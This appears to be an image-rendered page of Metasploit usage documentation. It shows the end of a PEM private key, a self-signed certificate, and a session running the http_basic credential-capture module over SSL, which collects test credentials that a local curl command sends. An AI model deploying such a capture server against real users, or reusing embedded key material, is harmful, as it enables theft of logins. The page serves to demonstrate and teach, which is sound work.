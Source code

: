 ```
XC/j2vvsoFswFqqSG8ild0CDC8OC93pBY0XzMfEZwdULoUKKUQBcwwIWv/VM3ERC
1IPESnuYgbpo4t9bO+cuVlGD+ZoCXJ8bkmtyYaWjvc/4VeHJG7hb9WfHqwKBgAe5
L17nVgNRRkhC9PWpb3sdwKNRAx9qsRDyQuoRhMGX2lBEz6zNKQEppzuy/ZVAcZcR
w97k8O0XEG455ZFe3JknFeNJe9vBC5k6QKFCRXY382VToaR3W0fOO5rDcSlZE+UA
PCu+Vj0WwVIzA0jHqfphWWaeub/NWSe8MLhG/76VAoGBALTnftXB/b45xkgNEIZ3
7WOsfvGo23tlXSQdCNNOn6YKptqYX88jeihcKEvGoIBH+LfV/GfD2P1d227kHyBZ
FoZ+2dUwVXO2UP5j3WlxBleOqk0rTbIri/Pj4oCajAR4pXDIviUD+bUFojyFaysj
It3LYabipjgG3NjDxYBMyJnt
-----END PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDazCCAlOgAwIBAgIUXlRMetgIkrPIiamQGIBKbcEuT1IwDQYJKoZIhvcNAQEL
BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0xODExMDYwMDQ2NDFaFw0xOTEx
MDYwMDQ2NDFaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
AQUAA4IBDwAwggEKAoIBAQCmniuSmx1h57hKXxBCfCOfsfJatMEtsrTHFCC0GDvI
IHGot8oniVKes7yK0w8GSr0LeJgH23QMf/N0SZlF6BRc0GELAC7qPa9VJ8HPYYVb
O/VaqXMy83y7YuSh6QlP/DksHt0W0rfvcM36ypHiZ3LIbaz8VuAUyIU5Qa6G+TNv
wClhQnaX3TLN0kk31pAwwuSRNvSYvmUih4HAeN29IJyoiXH+GEjw7wBbm9dkbU1D
I71zSZyO/Tfi/2SwDwaTKCucW7tUEd9ey6AU5hB6jGpc9N7rMYqV82mLogsXGaRD
Wh/tt9hghGWAX3MfD7EebQqYr4vQssoisU62ct4DtCrNAgMBAAGjUzBRMB0GA1Ud
DgQWBBR+MfL8LopA4OaIRLGK1gof3u+PIDAfBgNVHSMEGDAWgBR+MfL8LopA4OaI
RLGK1gof3u+PIDAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBe
IGmZr3wlO32b25qj/4qB7ewukwF6uaS4OQh4VLlUk8uYsqoGfvehAaNNJsu1oKO5
XpShHeyEkpwzgx0mdCmQSB3JKseFYuZTgP9GP00EXuHYl2V+quPFN17fq0AgYN6K
TFDwzYbhWyFGz7k++i23w0/dwvL2dLH+bgdHYU49rhlZIAu7PgbyIuhP+M2ltcjt
NDO8po38u2ba52E56abfg0ZlFBqsua2s1TPHIyQ9iovTPMg1E5UTTGebaN6/BaMh
Oj6N43ld9EONST6BhP3v1buoWHi1FMouocrUkUDuahiHoLlK4ERSUrb4uNnwko24
WdNCCmA8APA1qf2BYVqs
-----END CERTIFICATE-----
msf > use auxiliary/server/capture/http_basic 
msf auxiliary(server/capture/http_basic) > set ssl true
ssl => true
msf auxiliary(server/capture/http_basic) > set srvport 443
srvport => 443
msf auxiliary(server/capture/http_basic) > set sslcert /root/metasploit-framework/selfsigned.pem
sslcert => /root/metasploit-framework/selfsigned.pem
msf auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/http_basic) > 
[*] Using URL: https://0.0.0.0:443/4w0tML
[*] Local IP: https://192.168.2.117:443/4w0tML
[*] Server started.
[+] 127.0.0.1 - Credential collected: "admin:password123" => /4w0tML
```

Clients:

```
root@kali:~# curl -k --user admin:password123 https://127.0.0.1/4w0tML
&lt;!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
&lt;html>&lt;head>
&lt;title>404 Not Found&lt;/title>
&lt;/head>&lt;body>
&lt;h1>Not Found&lt;/h1>
&lt;p>The requested URL was not found on this server.&lt;/p>
&lt;hr>
&lt;address>Apache/2.2.9 (Unix) Server at  Port 443&lt;/address>
&lt;/body>&lt;/html>
```
